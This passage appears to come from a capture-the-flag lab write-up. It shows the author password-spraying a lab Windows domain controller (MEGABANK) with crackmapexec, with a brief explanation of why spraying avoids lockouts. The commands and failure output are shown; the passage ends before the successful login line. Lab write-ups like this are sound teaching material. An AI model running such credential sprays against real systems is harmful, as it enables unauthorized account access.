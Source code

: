     
    
    root@kali# crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marco:Welcome123! STATUS_LOGON_FAILURE 
    

I tried connecting with [EvilWinRM](https://github.com/Hackplayers/evil-winrm)
as well, but no luck.

#### Password Spray

Password spraying is similar to a password brute force, except you only try
one (or a few common passwords) across a lot of users. The benefit to the
attacker is that you don’t risk locking out any single account, and in a case
where you only need a foothold, it’s very common in a large organization to
find at least one user using a really bad guessable password.

I grabbed the list of users from `rpcclient`, and dropped them into a file.
Then I ran `crackmapexec` using that list as the user input. It found a user
still using `Welcome123!`:

    
    
    root@kali# crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:MEGABANK) (signing:True) (SMBv1:True)
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Administrator:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\Guest:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ryan:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marko:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sunita:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\abigail:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\marcus:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\sally:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\fred:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\angela:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE 